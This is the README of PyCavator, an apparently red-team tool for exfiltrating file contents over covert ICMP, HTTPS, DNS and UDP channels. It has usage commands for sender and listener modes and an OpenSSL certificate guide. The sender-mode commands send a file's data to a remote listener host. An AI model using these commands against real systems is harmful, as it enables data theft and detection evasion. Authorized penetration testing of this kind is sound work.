 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP/HTTPS packets in a secure and efficient manner.

- [PyCavator](#pycavator)
  * [Installation](#installation)
  * [Usage](#usage)
    + [ICMP](#icmp)
    + [HTTPS](#https)
	+ [DNS](#dns)
	+ [UDP](#udp)
  * [How to Contribute](#how-to-contribute)
  * [Disclaimer](#disclaimer)
  * [License](#license)

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/kryptohaker/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
> If in the target machine installation of required libraries is not possible, use `pycavator-httpsender.py` instead.

  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

#### Generating a Key, CSR, and Certificate with OpenSSL

This guide explains how to use OpenSSL to generate a new private key, create a certificate signing request (CSR) with the private key, sign the CSR to create a digital certificate, and display the contents of the certificate.

<b>Prerequisites:</b><br/>
- OpenSSL installed on your system.

##### Steps

Generate a new private key:
```bash
openssl genrsa -out key.pem 2048
```
This command generates a new RSA private key with a length of 2048 bits, and saves it to a file named `key.pem`.

Create a CSR with the private key:
```bash
openssl req -new -key key.pem -out csr.pem
```
This command creates a new certificate signing request (CSR) using the private key stored in the `key.pem` file, and saves the CSR to a file named `csr.pem`.

Sign the CSR to create a digital certificate:
```bash
openssl x509 -req -days 1 -in csr.pem -signkey key.pem -out cert.pem
```
This command uses the private key stored in the `key.pem` file to sign the CSR stored in the `csr.pem` file, and saves the resulting digital certificate to a file named `cert.pem` (is the output file that contains the public key). The `-days 1` option sets the validity period of the certificate to one day.

Display the contents of the certificate:
```bash
openssl x509 -text -noout -in cert.pem
```
This command displays the textual representation of the digital certificate stored in the `cert.pem` file, without the header or footer information.

Create a self-signed root certificate authority:
```bash
cp cert.pem ca.pem
```
This command copies the contents of the `cert.pem` file to a new file named `ca.pem`. This is often done to create a self-signed root certificate authority (CA), which can be used to sign other certificates for internal use.

### DNS
<b>Required libraries:</b><br/>
- dns.query<br/>
- dns.message<br/>
- dns.resolver<br/>

#### Examples:
<b>Sender mode: exfiltrate data from a file:</b>
```bash
  python pycavator-dns.py -f input.txt -s 192.168.1.101 -p 53 -d example.com -i 1 
```  
<b>Listener mode: listen for incoming data and save to a single file:</b>
```bash
  python pycavator-dns.py -l -s 192.168.1.101 -p 53 -o /tmp
```  
>Note: Once file has been sent, use `CTRL+C` in listener mode to exit and save. 

### UDP

#### Examples:
<b>Sender mode: exfiltrate data from a file:</b>
```bash
python pycavator-udp.py -f input.txt -s 192.168.1.101 -p 53 -i 1 
```  
<b>Listener mode: listen for incoming data and save to a single file:</b>
```bash
python pycavator-udp.py -l -s 192.168.1.101 -p 53 -o /tmp
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International (CC BY-NC-SA 4.0) License. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.





